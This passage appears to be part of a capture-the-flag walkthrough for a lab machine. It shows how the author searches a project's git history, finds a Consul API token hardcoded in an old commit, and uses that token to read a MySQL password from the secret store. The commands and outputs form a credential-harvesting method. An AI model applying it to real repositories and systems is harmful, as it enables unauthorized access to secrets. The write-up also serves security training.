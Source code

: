 ## Forraging git history for tokens

```bash
sudo -l
[sudo] password for developer:
Sorry, user developer may not run sudo on ambassador.
```
the git config in the developer users's home points to /opt/my-app where the whacky app thing resides 
```bash
cat .gitconfig
[user]
        name = Developer
        email = developer@ambassador.local
[safe]
        directory = /opt/my-app
```

so we can look at the git logs in there 
```bash
 git log --oneline
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
```
and get a token to talk to the consul API
```bash
git show 33a53ef
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

looks like this thing offers some kind of secret management: 
```bash
consul kv get --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw
dontStandSoCloseToMe63221!
```
